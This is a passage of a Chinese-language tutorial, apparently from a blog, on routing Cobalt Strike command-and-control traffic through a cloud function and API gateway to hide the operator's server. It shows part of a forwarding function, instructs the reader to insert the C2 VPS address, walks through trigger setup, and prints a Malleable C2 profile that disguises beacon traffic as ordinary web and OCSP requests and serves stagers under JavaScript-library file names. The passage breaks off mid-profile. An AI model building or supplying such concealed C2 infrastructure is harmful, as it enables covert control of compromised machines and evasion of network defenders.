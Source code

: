 ```python
        }
    except Exception as e:
        print('error')
        print(e)
    finally:
        return response
```
代码复制后修改成CS上线的vps服务器ip，然后点击完成。<br />然后在函数服务处点击触发管理，创建触发器处，填入如下参数，然后点击提交。**注意触发版本是LATEST**

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615038279429-2dd69fcb-b33b-47a7-96be-706ab92daa95.png#align=left&display=inline&height=381&originHeight=762&originWidth=1375&size=41138&status=done&style=none&width=687.5)<br />点击api服务名进行跳转

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615038317739-7fe52a43-2940-4ac3-a849-a122f5312f0d.png#align=left&display=inline&height=360&originHeight=480&originWidth=798&size=19511&status=done&style=none&width=599)<br />修改路径为/之后继续点击完成。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615038356402-8bbf3fcd-5cff-4c94-ab10-65087f883e9a.png#align=left&display=inline&height=588&originHeight=784&originWidth=959&size=43235&status=done&style=none&width=719)<br />看到是运行中，就没有什么问题了。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615038625774-dbe3a78a-b0dd-4146-88f0-6742928d9f63.png#align=left&display=inline&height=213&originHeight=425&originWidth=1784&size=26240&status=done&style=none&width=892)<br />然后把如下profile文件，上传至服务器<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615038728156-ac0ae04b-e25d-4a47-a463-21e0e152dbc7.png#align=left&display=inline&height=116&originHeight=232&originWidth=824&size=20673&status=done&style=none&width=412)
```
set sample_name "t";
set sleeptime "3000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/5.0)";

http-get {

    set uri "/api/x";

    client {
        header "Accept" "*/*";
        metadata {
            base64;
            prepend "SESSIONID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Server" "Nodejs";
        output {
            base64;
            print;
        }
    }
}
http-stager {  
    set uri_x86 "/vue.min.js";
    set uri_x64 "/bootstrap-2.min.js";
}
http-post {
    set uri "/api/y";
    client {
        header "Accept" "*/*";
        id {
            base64;
            prepend "JSESSION=";
            header "Cookie";
        }
        output {
            base64;
            print;
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
```
